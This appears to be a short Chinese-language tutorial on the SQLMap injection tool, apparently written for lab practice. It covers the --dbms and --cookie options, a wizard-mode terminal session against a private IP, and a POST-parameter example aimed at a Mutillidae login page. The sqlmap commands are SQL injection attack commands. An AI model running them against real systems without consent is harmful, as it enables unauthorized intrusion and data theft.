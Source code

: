 # SQLMap

`sqlmap -hh`可以用来查看详细参数列表。

## 一些技巧

* 需要定义攻击什么类型的数据库，如果认为存在注入点，而SQLMap却没有找到，就试着设置`--dbms=[database type]`参数。
* 如果需要测试存在认证继指的SQL注入操作，通过浏览器登录网站来获取Cookie，然后再使用`--cookie=[Cookie]`来设置。

* 最后如果确实不知道怎么操作，可以使用`sqlmap -wizard`来辅助进行测试。

    ```
    ┌──(huan㉿kali)-[/root]
    └─$ sqlmap -wizard                                                                     
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.5.2#stable}
    |_ -| . [,]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 02:51:21 /2021-08-19/
    
    [02:51:21] [INFO] starting wizard interface
    Please enter full target URL (-u): 10.4.7.5
    POST data (--data) [Enter for None]: "id=1"
    Injection difficulty (--level/--risk). Please choose:
    [1] Normal (default)
    [2] Medium
    [3] Hard
    > 1
    Enumeration (--banner/--current-user/etc). Please choose:
    [1] Basic (default)
    [2] Intermediate
    [3] All
    > 1
    
    sqlmap is running, please wait..
    ```

## POST参数示例

POST参数传递不是在URL中， 通过POST发送数据参数，sqlmap会像检测GET参数一样检测POST的参数。POST常常用于用域名和密码传递，网站服务器通常记录GET参数，且GET方法也有大小限制，因此对于大型应用程序传递较打数据时，通常使用POST参数。

```
--data=DATA  --data="id=1"
```

常规用法

```
sqlmap -u "http://10.4.7.5/mutillidae/index.php?page=login.php?username=xxx&password=xxx&login-php-submit-button=Login" -b
```







